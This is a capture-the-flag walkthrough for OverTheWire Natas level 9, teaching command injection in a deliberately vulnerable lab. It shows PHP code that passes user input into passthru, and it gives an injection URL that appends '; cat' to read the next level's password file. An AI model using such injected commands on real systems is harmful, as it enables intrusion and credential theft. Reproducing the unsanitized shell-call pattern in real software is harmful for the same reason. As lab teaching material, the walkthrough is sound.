




# Natas Level 9 → Level 10

## Level Goal / Objective

Find the password for the next level.

🔗 https://overthewire.org/wargames/natas/natas9.html

## Tools You May Need

```text
Browser DevTools, URL manipulation
```

## Concept Focus

* Command injection
* Unsanitized user input
* Server-side command execution

## Approach

### 1. Access the Level

Navigate to:

```text
http://natas9.natas.labs.overthewire.org/
```

Authenticate using:

```text
Username: natas9
Password: <previous level password>
```

---

### 2. Initial Enumeration

Viewing the source code reveals the backend logic:

```php
if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
```

The application passes user-controlled input directly into a shell command.

---

### 3. Investigate Further

This indicates the `needle` parameter may be vulnerable to command injection.

A basic test confirms the input is not being safely handled.

---

### 4. Extract the Password

Modify the URL to inject an additional command that reads the next password file:

```text
http://natas9.natas.labs.overthewire.org/?needle=;%20cat%20/etc/natas_webpass/natas10&submit=Search
```

The injected command is executed by the server and the response includes the password for the next level.

---

## Walkthrough (Screenshots)









---

## Password for Level 10

```text
t7I5VHvpa... (redacted)
```

---

## Key Takeaways

* Unsanitized input in shell commands can lead to command injection
* Source code review can quickly expose dangerous server-side patterns
* Never pass raw user input directly into command execution functions
